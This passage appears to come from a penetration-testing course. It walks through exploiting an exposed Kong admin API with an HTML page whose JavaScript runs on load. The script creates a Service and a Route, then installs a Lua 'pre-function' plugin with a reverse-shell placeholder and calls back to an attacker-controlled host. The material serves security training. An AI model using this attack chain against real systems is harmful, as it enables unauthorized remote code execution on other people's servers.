 > Listing 61 - Generating a Lua reverse shell

Since we will be uploading a Lua file, we won't need "lua -e" in the final version of the payload.

According to the Kong documentation, we have to add a plugin to a Service. We could add the plugin to an existing Service, but let's limit the exposure of it by creating a new Service. A Service needs a Route for us to call it. Let's create a new HTML page with a JavaScript function that creates a Service, adds a Route to the Service, then adds our Lua code as a "pre-function" plugin to the Service.

Any time we add users or modify applications during a security engagement, we should keep track of the changes and undo them at the end of the engagement. We never want to leave an application less secure than we found it.

We can use our previous JavaScript function as a starting point for the new one.

```
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :[  REVERSE SHELL HERE ]}})
    }).then(function (callback) {
      fetch("http://192.168.118.3/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```
